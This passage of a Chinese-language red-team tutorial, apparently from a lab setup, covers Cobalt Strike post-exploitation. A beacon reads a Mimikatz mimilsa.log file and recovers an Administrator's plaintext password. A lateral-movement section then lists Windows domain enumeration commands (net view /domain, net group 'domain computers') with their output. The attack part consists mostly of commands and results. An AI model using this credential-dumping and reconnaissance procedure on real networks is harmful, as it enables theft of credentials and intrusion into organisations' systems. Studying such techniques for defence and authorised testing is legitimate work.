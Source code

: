 可以看到是存在mimilsa.log文件的，此时待目标主机重新登录，比如电脑锁屏后用户进行登录。
查看mimilsa.log文件内容。

```
beacon> shell type mimilsa.log
[*] Tasked beacon to run: type mimilsa.log
[+] host called home, sent: 47 bytes
[+] received output:
[00000000:000003e5] \    
[00000000:002b99a7] WIN-75F8PRJM4TP\Administrator    Password123!
```

成功获取到当前登录用户的明文密码。

## 横向扩展

### 主机和用户枚举

#### 主机枚举
**一些问题**
当进入目标局域网时，需要弄清楚几个问题。
1、我正处在那个域上？
2、域信任关系是什么样的？
3、可以登陆哪些域？这些域上有哪些系统？目标是什么？可以获取什么？
4、系统上存放共享数据的地方在哪里？
**一些枚举的命令**

- net view /domain枚举出当前域

```powershell
PS C:\> net view /domain
Domain
-------------------------
TEST
命令成功完成。
```

- net view /domain:[domain]、net group "domain computers" /domainnet view /domain:[domain]枚举域上一个主机的列表，但不是所有主机，这个也就是在网上邻居中可以看到的内容。net group "domain computers" /domain可以获得加入到这个域中的电脑账户列表。

```powershell
PS C:\> net view /domain:test
服务器名称            注解
----------------------------------
\\WIN-72A8ERDSF2P
\\WIN-P2AASSD1AF1
命令成功完成。

PS C:\> net group "domain computers" /domain
组名     Domain Computers
注释     加入到域中的所有工作站和服务器
成员
----------------------------------------------
WIN-72A8ERDSF2P$
命令成功完成。
```
